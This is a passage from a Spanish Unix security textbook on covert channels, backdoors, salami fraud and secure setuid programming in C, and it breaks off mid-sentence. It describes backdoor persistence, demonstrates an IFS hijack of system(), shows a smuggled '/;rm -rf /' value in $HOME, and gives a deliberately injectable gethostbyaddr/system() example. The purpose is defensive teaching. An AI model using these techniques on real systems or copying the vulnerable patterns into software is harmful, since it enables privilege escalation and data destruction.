l\'ogica se va a activar y el directorio de este usuario ser\'a borrado.
\subsection{Canales ocultos}
Seg\'un \cite{kn:glo} un canal oculto es un cauce de comunicaci\'on que permite
a un proceso receptor y a un emisor intercambiar informaci\'on de forma que
viole la pol\'{\i}tica de seguridad del sistema; esencialmente se trata de un
m\'etodo de comunicaci\'on que no es parte del dise\~no original del sistema 
pero que puede utilizarse para transferir informaci\'on a un proceso o usuario
que {\it a priori} no estar\'{\i}a autorizado a acceder a dicha informaci\'on. 
Los canales ocultos existen s\'olamente en sistemas con seguridad multinivel
(\cite{kn:pro92}), aquellos que contienen y manejan informaci\'on con
diferentes niveles de sensibilidad, de forma que se permite acceder 
simult\'aneamente a varios usuarios a dicha informaci\'on pero con diferentes 
puntos de vista de la misma, en funci\'on de sus privilegios y sus necesidades 
de conocimiento ({\it needs to know}). El concepto de canal oculto
fu\'e introducido en 1973, en \cite{kn:lam73}, y desde entonces muchos han 
sido los estudios realizados sobre este m\'etodo de ataque, que afecta 
especialmente a sistemas en los que el aspecto m\'as importante de la seguridad
es la privacidad de los datos (por ejemplo, los militares).\\
\\Generalmente se suelen clasificar los canales cubiertos en funci\'on de 
varios aspectos (\cite{kn:gli93}):
\begin{itemize}	
\item Escenario\\
Cuando se construyen escenarios de canales cubiertos generalmente se suele
diferenciar entre canales cubiertos {\bf de almacenamiento} y {\bf de 
temporizaci\'on} (\cite{kn:lip75}). Los primeros son canales en los que se 
utiliza la escritura directa o indirecta de datos por parte de un proceso y la 
lectura -- tambi\'en directa o indirecta -- de esos datos por parte de otro;
generalmente utilizan un recurso finito del sistema, como bloques de disco, que
se comparte entre entidades con diferentes privilegios. Por contra, los 
canales ocultos de temporizaci\'on utilizan la modulaci\'on de ciertos recursos,
como el tiempo de CPU, para intercambiar la informaci\'on entre procesos. En
\cite{kn:gli93} se pueden encontrar ejemplos de ambos tipos de canales ocultos;
otro buen ejemplo de {\it covert channel} se encuentra en \cite{kn:mch95}.
\item Ruido\\
Como cualquier canal de comunicaci\'on, oculto o no, los canales cubiertos 
pueden ser ruidosos o inmunes al ruido; idealmente, un canal inmune al ruido es
aqu\'el en que la probabilidad de que el receptor escuche exactamente lo que
el emisor ha transmitido es 1: sin importar factores externos, no hay 
interferencias en la transmisi\'on. Evidentemente, en la pr\'actica es muy
dif\'{\i}cil conseguir estos canales tan perfectos, por lo que es habitual 
aplicar c\'odigos de correcci\'on de errores aunque \'estos reduzcan el ancho
de banda del canal. 
\item Flujos de informaci\'on\\
De la misma forma que en las l\'{\i}neas convencionales de transmisi\'on de 
datos se aplican t\'ecnicas (multiplexaci\'on en el tiempo, multiplexaci\'on en
frecuencia\ldots) para maximizar el ancho de banda efectivo, en los canales
cubiertos se puede hacer algo parecido. A los canales en los que se transmiten
varios flujos de informaci\'on entre emisor y receptor se les denomina {\bf
agregados}, y dependiendo de c\'omo se inicialicen, lean y {\it reseteen} las 
variables enviadas podemos hablar de agregaci\'on serie, paralela o 
h\'{\i}brida; los canales con un \'unico flujo de informaci\'on se llaman 
{\bf no agregados}.
\end{itemize}	
La preocupaci\'on por la presencia de canales ocultos es, como hemos dicho, 
habitual en sistemas de alta seguridad como los militares; de hecho, muchos
de los estudios sobre ataques basados en canales cubiertos y su prevenci\'on 
han sido -- y son -- realizados por las cl\'asicas agencias gubernamentales 
y militares estadounidenses ({\it National Security Agency}, {\it US Air Force},
{\it National Computer Security Center}\ldots). No obstante, tambi\'en en
entornos m\'as `normales' es posible la existencia de canales ocultos, 
especialmente aprovechando debilidades de la pila de protocolos TCP/IP 
(\cite{kn:dae96}, \cite{kn:row96}\ldots).\\
\\El an\'alisis y detecci\'on canales cubiertos es una tarea complicada que
generalmente se basa en complejos modelos formales y matem\'aticos 
(\cite{kn:wra91a}, \cite{kn:mos94}\ldots); diversas aproximaciones son 
utilizadas para el estudio de 
canales de temporizaci\'on (\cite{kn:hu91}, \cite{kn:wra91b}\ldots), y tambi\'en
para el de canales de almacenamiento (\cite{kn:por91}).
\subsection{Puertas traseras}
Las puertas traseras son trozos de c\'odigo en un programa que permiten a 
qui\'en conoce su funcionamiento saltarse los m\'etodos usuales de 
autenticaci\'on para realizar cierta tarea. Habitualmente son insertados por
los programadores para agilizar la tarea de probar su c\'odigo durante la
fase de desarrollo del mismo y se eliminan en el producto final, pero en 
ciertas situaciones el programador puede mantener estas puertas traseras en el
programa funcional, ya sea deliberada o involuntariamente. Por ejemplo, 
imaginemos una aplicaci\'on que para realizar cualquier tarea de seguridad 
solicita a quien lo ejecuta cinco claves diferentes; evidentemente, durante 
la fase de desarrollo es muy inc\'omodo para el programador teclear estas 
contrase\~nas antes de ver si el producto funciona correctamente, por lo que
es muy com\'un que esta persona decida incluir una rutina en el c\'odigo de
forma que si la primera clave proporcionada es una determinada no se soliciten
las cuatro restantes. Esta situaci\'on, aceptable durante la fase de desarrollo,
se convierte en una amenaza a la seguridad si se mantiene una vez el producto
est\'a instalado en un sistema {\it real}: cualquiera que conozca la clave
inicial puede saltarse todo el mecanismo de protecci\'on del programa.\\
\\Aparte de puertas traseras en los programas, es posible -- y t\'{\i}pico -- 
situar puertas traseras en ciertos ficheros vitales para el sistema; 
generalmente, cuando un atacante consigue acceso a una m\'aquina Unix desea 
mantener ese acceso aunque su penetraci\'on sea detectada. Por ejemplo, algo 
muy habitual es a\~nadir un usuario con UID 0 en el fichero de claves, de forma
que el pirata pueda seguir accediendo al sistema con ese nuevo {\it login}
aunque el administrador cierre la puerta que antes hab\'{\i}a utilizado para 
entrar. Tambi\'en es cl\'asico a\~nadir un nuevo servicio en un puerto no 
utilizado, de forma que haciendo {\it telnet} a ese n\'umero de puerto se
abra un {\it shell} con privilegios de {\it root}; incluso muchos atacantes
utilizan la facilidad {\tt cron} para chequear peri\'odicamente estos archivos
e insertar las puertas traseras de nuevo en caso de que hayan sido borradas.
>Qu\'e hacer para evitar estos ataques? La prevenci\'on pasa por comprobar
peri\'odicamente la integridad de los archivos m\'as importantes (ficheros de
contrase\~nas, {\it spoolers}, configuraci\'on de la red, programas del arranque
de m\'aquina\ldots); tambi\'en es conveniente rastrear la existencia de nuevos
archivos {\it setuidados} que puedan `aparecer' en los sistemas de ficheros:
cualquier nuevo programa de estas caracter\'{\i}sticas suele indicar un ataque
exitoso, y una puerta trasera -- generalmente un {\it shell} setuidado -- 
colocada en nuestra m\'aquina. Los m\'as paranoicos no deben olvidar efectuar
una b\'usqueda bajo los dispositivos montados (existen utilidades para hacerlo),
ya que un {\tt find} normal no suele encontrar ficheros {\it setuidados} que se 
guarden en un directorio que es a su vez punto de montaje para otra unidad.
\subsection{Superzapping}
Este problema de seguridad deriva su nombre del programa {\tt superzap}, una
utilidad de los antiguos {\it mainframes} de IBM que permit\'{\i}a a qui\'en
lo ejecutaba pasar por alto todos los controles de seguridad para realizar
cierta tarea administrativa, presumiblemente urgente; se trataba de un {\it 
`Rompa el cristal en caso de emergencia'} que estos sistemas pose\'{\i}an, o 
de una llave maestra capaz de abrir todas las puertas. Obviamente, el problema
sucede cuando la llave se pierde y un atacante la utiliza en beneficio propio.\\
\\Como es normal, este tipo de programas no suele encontrarse en los sistemas 
modernos por los graves problemas de seguridad que su existencia implica: 
imaginemos un {\it shell} setuidado como {\it root} y guardado en {\tt /tmp/},
de forma que si el sistema funciona an\'omalamente cualquiera puede ejecutarlo
para solucionar el posible problema. Parece obvio que para un atacante 
ser\'{\i}a un gran avance disponer de esta herramienta. De cualquier forma, no
es habitual clasificar a los programas {\it superzap} como {\it malware}, ya
que en principio se trata de aplicaciones leg\'{\i}timas, incluso necesarias
en determinadas situaciones; es, como sucede en muchos casos, su mal uso y no
el programa en s\'{\i} lo que constituye una amenaza a la seguridad.\\
\\El ejemplo t\'{\i}pico (\cite{kn:isv95}, \cite{kn:par81}\ldots) de problemas 
derivados del {\it superzapping} es un
caso ocurrido en Nueva Jersey que caus\'o la p\'erdida de 128.000 d\'olares de
los a\~nos setenta. El operador de un sistema bancario estaba utilizando un
programa {\it superzap} para corregir balances en el estado de las cuentas 
cuando un error simple le demostr\'o lo f\'acil que pod\'{\i}a modificar 
registros sin que el sistema de auditor\'{\i}a lo detectara; aprovech\'o esta
situaci\'on para transferir dinero a tres cuentas, y dado que no dej\'o huellas
la \'unica forma de detectar el fraude fu\'e la r\'apida reacci\'on del banco
ante la queja de un usuario -- y un exhaustivo an\'alisis del estado de todas 
las cuentas.
\subsection{Programas salami}
Las t\'ecnicas salami se utilizan para desviar peque\~nas cantidades de 
bienes -- generalmente dinero -- de una fuente con un gran cantidad de los 
mismos; de la misma forma que de un salami se cortan peque\~nas rodajas sin que
el total sufra una reducci\'on considerable, un programa salami roba peque\~nas
cantidades de dinero, de forma que su acci\'on pasa inadvertida. Aunque su 
efecto es especialmente
grave en entornos bancarios y no en sistemas habituales, en este trabajo vamos a
hablar brevemente de los programas salami ya que se pueden utilizar para atacar
equipos Unix dedicados a operaciones financieras, como la gesti\'on de n\'ominas
de personal o la asignaci\'on de becas.\\
\\El principal problema de los programas salami es que son extremadamente 
dif\'{\i}ciles de detectar, y s\'olo una compleja auditor\'{\i}a de cuentas
puede sacar a la luz estos fraudes. Si un programador es lo suficientemente
inteligente como para insertar {\it malware} de este tipo en los sistemas de
un banco para el cual trabaja (si se tratara de un atacante externo la 
probabilidad de ataque ser\'{\i}a casi despreciable), seguramente conoce a la
perfecci\'on todos los entresijos de dicho banco, de forma que no le ser\'a
dif\'{\i}cil desviar fondos a cuentas que no son la suya, comprobar si se 
sobrepasa un cierto umbral en dichas cuentas -- umbral a partir del cual el
banco `se interesar\'{\i}a' por el propietario de la cuenta -- o incluso 
utilizar nombres falsos o cuentas externas a las que desviar el dinero. Contra
esto, una de las pocas soluciones consiste en vigilar de cerca las cuentas de
los empleados y sus allegados, as\'{\i} como estar atentos a posibles cambios 
en su modo de vida: un coche de lujo de una persona con un sueldo normal, 
viajes caros, demasiadas ostentaciones\ldots pueden ser signo de un fraude;
evidentemente, es necesario consultar con un gabinete jur\'{\i}dico la 
legalidad o ilegalidad de estas acciones, que pueden constituir una invasi\'on
a la privacidad del trabajador. Por supuesto, la soluci\'on ideal ser\'{\i}a 
comprobar l\'{\i}nea a l\'{\i}nea todo el {\it software} del banco, pero pocos 
auditores tienen los conocimientos -- y la paciencia -- suficientes para 
realizar esta tarea.\\
\\Un caso particular de programa salami lo constituyen los programas de redondeo
hacia abajo o {\it round down}. Este fraude consiste en aprovechar c\'alculos
de los sistemas bancarios que obtienen cantidades de dinero m\'as peque\~nas que
la moneda de menor valor (en el caso de Espa\~na, cantidades de c\'entimos);
por ejemplo, imaginemos que alguien tiene ingresadas 123.523 pesetas a un
inter\'es del 2'5\%; los cr\'editos le reditar\'an un total de 3088'075 pesetas,
que autom\'aticamente para el banco se transformar\'an en 3088. Si esos 7'5
c\'entimos se acumulan en otro c\'alculo con cantidades igual de despreciables,
se llegar\'a tarde o temprano a un punto en el que la cantidad total de dinero
sea lo suficientemente apetecible para un atacante dispuesto a aprovechar la
situaci\'on. Si pensamos que millones de estos c\'alculos se realizan 
diariamente en todos los bancos de Espa\~na, podemos hacernos una idea del poco 
tiempo que tardar\'a la cuenta de un pirata en llenarse.
\section{Programaci\'on segura}
\label{progseg}
Parece obvio que despu\'es de analizar los problemas que un c\'odigo malicioso
o simplemente mal dise\~nado puede causar, dediquemos un apartado a comentar
brevemente algunos aspectos a tener en cuenta a la hora de crear programas
seguros. Vamos a hablar de programaci\'on en C, obviamente por ser el lenguaje
m\'as utilizado en Unix; para aquellos interesados en la seguridad de otros
lenguajes que tambi\'en se utilizan en entornos Unix, existen
numerosos art\'{\i}culos que hablan de la programaci\'on segura -- e insegura 
-- en lenguajes que van desde Java (\cite{kn:meh98}, \cite{kn:dea96}, 
\cite{kn:gal96a}\ldots) a SQL (\cite{kn:pol93}).\\
\\El principal problema de la programaci\'on en Unix lo constituyen los 
programas {\it setuidados}; si un programa sin este bit activo tiene un fallo,
lo normal es que ese fallo solamente afecte a quien lo ejecuta. Al tratarse
de un error de programaci\'on, algo no intencionado, su primera consecuencia
ser\'a el mal funcionamiento de ese programa. Este esquema cambia radicalmente
cuando el programa est\'a {\it setuidado}: en este caso, el error puede 
comprometer tanto a quien lo ejecuta como a su propietario, y como ese 
propietario es por norma general el {\it root} autom\'aticamente se compromete 
a todo el sistema. Para la codificaci\'on segura de este tipo de programas,
\cite{kn:bis86} proporciona unas l\'{\i}neas b\'asicas:
\begin{itemize}
\item M\'aximas restricciones a la hora de elegir el UID y el GID.\\
Una medida de seguridad b\'asica que todo administrador de sistemas Unix ha
de seguir es realizar todas las tareas con el m\'{\i}nimo privilegio que estas
requieran (\cite{kn:sim90}); as\'{\i}, a nadie se le ocurre (o se le 
deber\'{\i}a ocurrir) 
conectar a IRC o aprender a manejar una aplicaci\'on gen\'erica bajo la 
identidad de {\it root}.  Esto es directamente aplicable a la hora de programar:
cuando se crea un programa {\it setuidado} (o {\it setgidado}) se le ha de
asignar tanto el UID como el GID menos peligroso para el sistema. Por ejemplo,
si un programa servidor se limita a mostrar un mensaje en pantalla y adem\'as 
escucha en un puerto por encima de 1024, no necesita para nada estar {\it
setuidado} a nombre de {\it root} (realmente, es poco probable que ni siquiera
necesite estar {\it setuidado}); si pensamos en un posible error en dicho 
programa que permita a un atacante obtener un {\it shell} vemos claramente
que cuanto menos privilegio tenga el proceso, menos malas ser\'an las posibles
consecuencias de tal error.
\item {\it Reset} de los UIDs y GIDs efectivos antes de llamar a {\tt exec()}.\\
Uno de los grandes problemas de los programas {\it setuidados} es la 
ejecuci\'on de otros programas de manera inesperada; por ejemplo, si el usuario
introduce ciertos datos desde teclado, datos que se han de pasar como argumento
a otra aplicaci\'on, nada nos asegura {\it a priori} que esos datos sean 
correctos o coherentes. Por tanto, parece obvio resetear el UID y el GID 
efectivos antes de invocar a {\tt exec()}, de forma que cualquier ejecuci\'on
inesperada se realice con el m\'{\i}nimo privilegio necesario; esto tambi\'en
es aplicable a funciones que indirectamente realicen el {\tt exec()}, como
{\tt system()} o {\tt popen()}.
\item Es necesario cerrar todos los descriptores de fichero, excepto los 
estrictamente necesarios, antes de llamar a {\tt exec()}.\\
Los descriptores de ficheros son un par\'ametro que los procesos Unix heredan
de sus padres; de esta forma, si un programa {\it setuidado} est\'a leyendo
un archivo, cualquier proceso hijo tendr\'a acceso a ese archivo a no ser que
expl\'{\i}citamente se cierre su descriptor antes de ejecutar el {\tt exec()}.\\
\\La forma m\'as f\'acil de prevenir este problema es activando un {\it flag}
que indique al sistema que ha de cerrar cierto descriptor cada vez que se 
invoque a {\tt exec()}; esto se consigue mediante las llamadas {\tt fcntl()}
e {\tt ioctl()}.
\item Hay que asegurarse de que {\tt chroot()} realmente restringe.\\
Los enlaces duros entre directorios son algo que el n\'ucleo de muchos sistemas
Unix no permiten debido a que genera bucles en el sistema de ficheros, algo
que crea problemas a determinadas aplicaciones; por ejemplo, Linux no permite
crear estos enlaces, pero Solaris o Minix s\'{\i}. En estos \'ultimos, en los
clones de Unix que permiten {\it hard links} entre directorios, la llamada
{\tt chroot()} puede perder su funcionalidad: estos enlaces pueden seguirse
aunque no se limiten al entorno con el directorio ra\'{\i}z restringido. Es
necesario asegurarse de que no hay directorios enlazados a ninguno de los 
contenidos en el entorno {\tt chroot()} (podemos verlo con la opci\'on {\tt 
`-l'} de la orden {\tt ls}, que muestra el n\'umero de enlaces de cada 
archivo).
\item Comprobaciones del entorno en que se ejecutar\'a el programa.\\
En Unix todo proceso hereda una serie de variables de sus 
progenitores, como el {\tt umask}, los descriptores de ficheros, o ciertas 
variables de entorno ({\it \$PATH}, {\it \$IFS}\ldots); para una ejecuci\'on 
segura, es necesario controlar todos y cada uno de estos elementos que afectan 
al entorno de un proceso. Especialmente cr\'{\i}ticas son las funciones que
dependen del {\it shell} para ejecutar un programa, como {\tt system()} o {\tt
execvp()}: en estos casos es muy dif\'{\i}cil asegurar que el {\it shell} va
a ejecutar la tarea prevista y no otra. Por ejemplo, imaginemos el siguiente
c\'odigo:
\begin{quote}
\begin{verbatim}
#include <stdlib.h>

main(){
  system("ls");
}
\end{verbatim}
\end{quote}
A primera vista, este programa se va a limitar a mostrar un listado del
directorio actual; no obstante, si un usuario modifica su {\it \$PATH} de forma
que el directorio {\tt `.'} ocupe el primer lugar, se ejecutar\'a {\tt ./ls}
en lugar de {\tt /bin/ls}. Si el programa {\tt ./ls} fuera una copia del {\it 
shell}, y el c\'odigo anterior estuviera setuidado por el {\it root}, cualquier 
usuario podr\'{\i}a obtener privilegios de administrador.\\
\\Quiz\'as alguien puede pensar que el problema se soluciona si se indica la
ruta completa ({\tt /bin/ls}) en lugar de \'unicamente el nombre del ejecutable;
evidentemente, esto arreglar\'{\i}a el fallo anterior, pero seguir\'{\i}an
siendo factibles multitud de ataques contra el programa. Desde la modificaci\'on
del {\it \$IFS} (como veremos m\'as adelante) hasta la ejecuci\'on en entornos 
restringidos, existen 
much\'{\i}simas t\'ecnicas que hacen muy dif\'{\i}cil que un programa con estas 
caracter\'{\i}sticas pueda ser considerado seguro.
\item {\bf Nunca} {\it setuidar} {\it shellscripts}.\\
Aunque en muchos sistemas Unix la activaci\'on del bit {\it setuid} en {\it 
shellscripts} no tiene ning\'un efecto, muchos otros a\'un permiten que los
usuarios -- especialmente el {\it root} -- creen procesos interpretados y {\it
setuidados}. La potencia de los int\'erpretes de \'ordenes de Unix hace casi
imposible controlar que estos programas no realicen acciones no deseadas, 
violando la seguridad del sistema, por lo que bajo ning\'un concepto se ha de
utilizar un proceso por lotes para realizar acciones privilegiadas de forma
{\it setuidada}.
\item No utilizar {\tt creat()} para bloquear.\\
Una forma de crear un fichero de bloqueo es invocar a {\tt creat()} con un
modo que no permita la escritura del archivo (habitualmente el 000), de forma 
que si otro usuario tratara de hacer lo mismo, su llamada a {\tt creat()} 
fallar\'{\i}a. Esta aproximaci\'on, que a primera vista parece completamente
v\'alida, no lo es tanto si la analizamos con detalle: en cualquier sistema
Unix, la protecci\'on que proporcionan los permisos de un fichero s\'olo es
aplicable si quien trata de acceder a \'el no es el {\it root}. Si esto es 
as\'{\i}, es decir, si el UID efectivo del usuario que est\'a accediendo al
archivo es 0, los permisos son ignorados completamente y el acceso est\'a
permitido; de esta forma, el {\it root} puede sobreescribir archivos sin 
que le importen sus bits {\it rwx}, lo que implica que si uno de los procesos
que compiten por el recurso bloqueado est\'a setuidado a nombre del 
administrador, el esquema de bloqueo anterior se viene abajo.\\
\\Para poder bloquear recursos en un programa {\it setuidado} se utiliza la 
llamada
{\tt link()}, ya que si se intenta crear un enlace a un fichero que ya existe
{\tt link()} falla aunque el proceso que lo invoque sea propiedad del {\it 
root} (y aunque el fichero sobre el que se realice no le pertenezca).Tambi\'en 
es posible utilizar la llamada al sistema {\tt flock()} de algunos Unices, 
aunque es menos recomendable por motivos de portabilidad entre clones.
\item Capturar todas las se\~nales.\\ 
Un problema que puede comprometer la seguridad del sistema Unix es el volcado
de la imagen en memoria de un proceso cuando \'este recibe ciertas se\~nales
(el cl\'asico {\it core dump}). Esto puede provocar el volcado de informaci\'on
sensible que el programa estaba leyendo: por ejemplo, en versiones del programa 
{\tt login} de algunos Unices antiguos, se pod\'{\i}a leer parte de {\tt 
/etc/shadow} enviando al proceso la se\~nal {\sc sigterm} y consultando el 
fichero de volcado.\\
\\No obstante, este problema no resulta tan grave como otro tambi\'en 
relacionado con los {\it core dump}: cuando un programa {\it setuidado} vuelca
su imagen el fichero resultante tiene el mismo UID que el UID real del 
proceso. Esto puede permitir a un usuario obtener un fichero con permiso de
escritura para todo el mundo pero que pertenezca a otro usuario (por ejemplo,
el {\it root}): evidentemente esto es muy perjudicial, por lo que parece claro
que en un programa {\it setuidado} necesitamos capturar todas las se\~nales que 
Unix nos permita (recordemos que {\sc sigkill} no puede capturarse ni ignorarse,
por norma general).
\item Hay que asegurarse de que las verificaciones realmente verifican.\\
Otra norma b\'asica a la hora de escribir aplicaciones {\it setuidadas} es la
desconfianza de cualquier e\-le\-men\-to ex\-ter\-no al pro\-gra\-ma; hemos de 
ve\-ri\-fi\-car siem\-pre que las entradas (teclado, fi\-che\-ros\ldots) son 
correctas, ya no en su
formato sino m\'as bien en su origen: >de qui\'en proviene un archivo del que
nuestro programa lee sus datos, de una fuente fiable o de un atacante que por
cualquier m\'etodo -- no nos importa cu\'al -- ha conseguido reemplazar ese
archivo por otro que \'el ha creado?
\item Cuidado con las recuperaciones y detecciones de errores.\\
Ante cualquier situaci\'on inesperada -- y por lo general, poco habitual, 
incluso forzada por un atacante -- un programa {\it setuidado} debe detenerse
sin m\'as; nada de intentar recuperarse del error: detenerse sin m\'as. Esto,
que quiz\'as rompe muchos de los esquemas cl\'asicos sobre programaci\'on 
robusta, tiene una explicaci\'on sencilla: cuando un programa detecta una 
situaci\'on inesperada, a menudo el programador asume condiciones sobre el error
(o sobre su causa) que no tienen por qu\'e cumplirse, lo que suele desembocar
en un problema m\'as grave que la propia situaci\'on inesperada. Para cada
posible problema que un programa encuentre (entradas muy largas, caracteres
err\'oneos o de control, formatos de datos err\'oneos\ldots) es necesario que
el programador se plantee qu\'e es lo que su c\'odigo debe hacer, y ante la 
m\'{\i}nima duda detener el programa.
\item Cuidado con las operaciones de entrada/salida.\\
La entrada/salida entre el proceso y el resto del sistema constituye otro de 
los problemas comunes en programas {\it setuidados}, especialmente a la hora
de trabajar con ficheros; las condiciones de carrera aqu\'{\i} son algo 
demasiado frecuente: el ejemplo cl\'asico se produce cuando un programa {\it
setuidado} ha de escribir en un archivo propiedad del usuario que ejecuta el
programa ({\bf no} de su propietario). En esta situaci\'on lo habitual es que
el proceso cree el fichero, realize sobre \'el un {\tt chown()} al rUID y al
rGID del proceso (es decir, a los identificadores de qui\'en est\'a ejecutando
el programa), y posteriormente escriba en el archivo; el esqueleto del c\'odigo
ser\'{\i}a el siguiente:
\begin{quote}
\begin{verbatim}
fd=open("fichero",O_CREAT);
fchown(fd,getuid(),getgid());
write(fd,buff,strlen(buff));
\end{verbatim}
\end{quote}
Pero, >qu\'e sucede si el programa se interrumpe tras realizar el {\tt open()}
pero antes de invocar a {\tt fchown()}, y adem\'as el {\tt umask} del usuario
es 0? El proceso habr\'a dejado un archivo que pertenece al propietario del
programa (generalmente el {\tt root}) y que tiene permiso de escritura para
todo el mundo. La forma m\'as efectiva de solucionar el problema consiste en
que el proceso engendre un hijo mediante {\tt fork()}, hijo que asignar\'a a sus
eUID y eGID los valores de su rUID y rGID (los identificadores del usuario que
lo ha ejecutado, no de su propietario). El padre podr\'a enviar datos a su hijo
mediante {\tt pipe()}, datos que el hijo escribir\'a en el fichero 
correspondiente: as\'{\i} el fichero en ning\'un momento tendr\'a por qu\'e 
pertenecer al usuario propietario del programa, con lo que evitamos la 
condici\'on de carrera expuesta anteriormente.
\end{itemize}
Sin embargo, un correcto estilo de programaci\'on no siempre es la soluci\'on a
los problemas de seguridad del c\'odigo; existen llamadas a sistema o funciones
de librer\'{\i}a que son un cl\'asico a la hora de hablar de {\it bugs} en 
nuestro {\it software}. Como norma, tras cualquier llamada se ha de comprobar su
valor de retorno y manejar los posibles errores que tenga asociados 
(\cite{kn:sho00}), con la evidente excepci\'on de las llamadas que est\'an 
dise\~nadas para sobreescribir el espacio de memoria de un proceso (la familia 
{\tt exec()} por ejemplo) o las que hacen que el programa finalice 
(t\'{\i}picamente, {\tt exit()}) . Algunas de las llamadas consideradas m\'as 
peligrosas (bien porque no realizan las comprobaciones necesarias, bien porque 
pueden recibir datos del usuario) son las siguientes\footnote{Que sean 
peligrosas no significa que algunas de ellas no se deban utilizar nunca, s\'olo
que si las usamos hemos de tomar unas m\'{\i}nimas precauciones.}:
\begin{itemize}
\item {\tt system()}: Esta es la llamada que cualquier programa {\it setuidado}
debe evitar a toda costa. Si aparece en un c\'odigo destinado a ejecutarse con
privilegios, significa casi con toda certeza un grave problema de seguridad; en
algunas ocasiones su peligrosidad es obvia (por ejemplo si leemos datos 
tecleados por el usuario y a continuaci\'on hacemos un {\tt system()} de esos
datos, ese usuario no tendr\'{\i}a m\'as que teclear {\tt /bin/bash} para 
conseguir los privilegios del propietario del programa), pero en otras no lo es
tanto: imaginemos un c\'odigo que invoque a {\tt system()} de una forma similar
a la siguiente:
\begin{quote}
\begin{verbatim}
#include <stdio.h>
#include <stdlib.h>

main(){
system("/bin/ls");
}
\end{verbatim}
\end{quote}
El programa anterior se limitar\'{\i}a a realizar un listado del directorio
desde el que lo ejecutemos. Al menos en teor\'{\i}a, ya que podemos comprobar
que no es dif\'{\i}cil `enga\~nar' a {\tt system()}: no tenemos m\'as que 
modificar la variable de entorno {\it \$IFS} ({\it Internal Field Separator})
del {\it shell} desde el que ejecutemos el programa para conseguir que este 
c\'odigo ejecute realmente lo que nosotros le indiquemos. Esta variable delimita
las palabras (o s\'{\i}mbolos) en una l\'{\i}nea de \'ordenes, y por defecto
suele estar inicializada a {\it Espacio}, {\it Tabulador}, y {\it Nueva 
L\'{\i}nea} (los separadores habituales de palabras); pero, >qu\'e sucede si le
indicamos al {\it shell} que el nuevo car\'acter separador va a ser la barra,
{\tt `/'}?. Muy sencillo: ejecutar {\tt `/bin/ls'} ser\'a equivalente a
ejecutar {\tt `bin ls'}, es decir, una posible orden denominada {\tt `bin'} que
recibe como par\'ametro {\tt `ls'}. Por ejemplo, bajo SunOS -- bajo la 
mayor\'{\i}a de Unices --, y utilizando {\tt sh} (no {\tt bash}) podemos hacer 
que {\tt `bin'} sea un programa de nuestra elecci\'on, como {\tt `id'}:
\begin{quote}
\begin{verbatim}
$ cp /bin/id bin
$ ejemplo 
bin  ejemplo.c  ejemplo
$ IFS=/
$ export IFS
$ ejemplo
uid=672(toni) gid=10(staff)
$ 
\end{verbatim}
\end{quote}
Como podemos ver, acabamos de ejecutar un programa arbitrario; si en lugar de
{\tt `id'} hubi\'eramos escogido un int\'erprete de \'ordenes, como {\tt `bash'}
o {\tt `sh'}, habr\'{\i}amos ejecutado ese {\it shell}. Y si el programa 
anterior estuviera {\it setudiado}, ese {\it shell} se habr\'{\i}a ejecutado
con los privilegios del propietario del archivo (si imaginamos que fuera {\tt
root}, podemos hacernos una idea de las implicaciones de seguridad que esto
representa).
\item {\tt exec()}, {\tt popen()}: Similares a la anterior; es preferible 
utilizar {\tt execv()} o {\tt execl()}, pero si han de recibir par\'ametros del
usuario sigue siendo necesaria una estricta comprobaci\'on de los mismos.
\item {\tt setuid()}, {\tt setgid()}\ldots: Los programas de usuario no 
deber\'{\i}an utilizar estas llamadas, ya que no han de tener privilegios 
innecesarios.
\item {\tt strcpy()}, {\tt strcat()}, {\tt sprintf()}, {\tt vsprintf()}\ldots: 
Estas funciones no comprueban la longitud de las cadenas con las que trabajan, 
por lo que son una gran fuente de {\it buffer overflows}. Se han de sustituir
por llamadas equivalentes que s\'{\i} realicen comprobaci\'on de l\'{\i}mites
({\tt strncpy()}, {\tt strncat()}\ldots) y, si no es posible, realizar dichas
comprobaciones manualmente.
\item {\tt getenv()}: Otra excelente fuente de desbordamientos de {\it buffer};
adem\'as, el uso que hagamos de la informaci\'on le\'{\i}da puede ser peligroso,
ya que recordemos que es el usuario el que generalmente puede modificar el valor
de las variables de entorno. Por ejemplo, >qu\'e suceder\'{\i}a si ejecutamos
desde un programa una orden como {\tt `cd \$HOME'}, y resulta que esta variable
de entorno no corresponde a un nombre de directorio sino que es de la forma
{\tt `/;rm -rf /'}? Si algo parecido se hace desde un programa que se ejecute
con privilegios en el sistema, podemos imaginarnos las consecuencias\ldots
\item {\tt gets()}, {\tt scanf()}, {\tt fscanf()}, {\tt getpass()}, {\tt 
realpath()}, {\tt getopt()}\ldots: Estas funciones no realizan las 
comprobaciones adecuadas de los datos introducidos, por lo que pueden desbordar
en algunos casos el {\it buffer} destino o un {\it buffer} est\'atico interno
al sistema. Es preferible el uso de {\tt read()} o {\tt fgets()} siempre que sea
posible (incluso para leer una contrase\~na, haciendo por supuesto que no se 
escriba en pantalla), y si no lo es al menos realizar manualmente comprobaciones
de longitud de los datos le\'{\i}dos. 
\item {\tt gethostbyname()}, {\tt gethostbyaddr()}: Seguramente ver las amenazas
que provienen del uso de estas llamadas no es tan inmediato como ver las del
resto; generalmente hablamos de desbordamiento de {\it buffers}, de 
comprobaciones de l\'{\i}mites de datos introducidos por el usuario\ldots pero
no nos paramos a pensar en datos que un atacante no introduce directamente 
desde teclado o desde un archivo, pero cuyo valor puede forzar incluso desde
sistemas que ni siquiera son el nuestro. Por ejemplo, todos tendemos a asumir
como ciertas las informaciones que un servidor DNS -- m\'as o menos fiables, por
ejemplo alguno de nuestra propia organizaci\'on -- nos brinda. Imaginemos un 
programa como
el siguiente (se han omitido las comprobaciones de errores habituales por 
cuestiones de claridad):
\begin{quote}
\begin{verbatim}
#include <stdio.h>
#include <stdlib.h>
#include <netdb.h>
#include <unistd.h>
#include <arpa/inet.h>

int main(int argc, char **argv){
struct in_addr *dir=(struct in_addr *)malloc(sizeof(struct in_addr));
struct hostent *maquina=(struct hostent *)malloc(sizeof(struct \
        hostent));
char *orden=(char *)malloc(30);
dir->s_addr=inet_addr(*++argv);
maquina=gethostbyaddr((char *)dir,sizeof(struct in_addr),AF_INET);
sprintf(orden,"finger @%s\n",maquina->h_name);
system(orden);
return(0);
}
\end{verbatim}
\end{quote}
Este c\'odigo recibe como argumento una direcci\'on IP, obtiene su nombre 
v\'{\i}a {\tt /etc/hosts} o {\sc dns},y ejecuta un {\tt finger} sobre dicho 
nombre; aparte de otros posibles problemas de seguridad (por ejemplo, 
>ser\'{\i}amos capaces de procesar {\bf cualquier} informaci\'on que devuelva
el {\tt finger}?, >qu\'e sucede con la llamada a {\tt system()}?), nada 
